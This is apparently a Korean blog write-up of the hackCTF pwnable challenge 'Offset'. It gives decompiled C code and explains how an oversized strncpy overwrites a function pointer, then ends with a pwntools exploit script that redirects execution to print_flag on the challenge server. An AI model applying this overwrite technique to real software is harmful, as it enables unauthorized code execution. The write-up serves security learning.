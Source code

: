 ```yaml
---
layout: post
title:  "[hackCTF]Offset"
date:   2020-02-18
---
```


hackCTF pwnable 8번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1h] [ebp-27h]
  int * v5; // [esp+20h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, (char * )&dword_0 + 2, 0, 0);
  puts("Which function would you like to call?");
  gets(&s);
  select_func(&s);
  return 0;
}
```

## ida - select_func
```c
int __cdecl select_func(char *src)
{
  char dest; // [esp+Eh] [ebp-2Ah]
  int (*v3)(void); // [esp+2Ch] [ebp-Ch]

  v3 = (int (*)(void))two;
  strncpy(&dest, src, 0x1Fu); // src의 값을 dest에 저장한다
  if ( !strcmp(&dest, "one") ) // dest의 값이 "one"이면
    v3 = (int (*)(void))one; // v3에 one함수의 주소를 저장한다
  return v3();
}
```

## ida - one
```c
int one()
{
  return puts("This is function one!");
}
```

## ida - print_flag
```c
int print_flag()
{
  char i; // al
  FILE * fp; // [esp+Ch] [ebp-Ch]

  puts("This function is still under development.");
  fp = fopen("flag.txt", "r");
  for ( i = _IO_getc(fp); i != -1; i = _IO_getc(fp) )
    putchar(i); // flag 값을 출력한다
  return putchar(10);
}
```

## ida - two
```c
int two()
{
  return puts("This is function two!");
}
```
<br>

정리해보자.<br><br>

***

|  v3  | esp+0x2C |
|:----:|:--------:|
|  ... |          |
| dest |  esp+0xE |

***
<br>
select_func에서 src의 값을 dest에 저장할 때 print_flag함수 주소로 v3까지 덮으면 return v3();에서 print_flag를 실행할 수 있을 것이다.<br><br>
목표 : select_func에서 v3를 print_flag 주소로 덮기<br>
취약점 : strncpy(&dest, src, 0x1Fu)<br><br><br>
+) print_flag Offset

![0801](https://drive.google.com/uc?id=1KA2RAABGsf9_88UeDV2rig8vzczPHF_X)

offset을 알기 때문에 off-by-one 기법이 적용되었음ㅇㅇ

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)

payload = "A"*(0x2c-0xe)+p32(0x000006D8)

p.sendline(payload)

p.interactive()
```

## 결과
![0802](https://drive.google.com/uc?id=1YaANIi0dWPXCjXTlp2WlS9nFo8QoMulG)
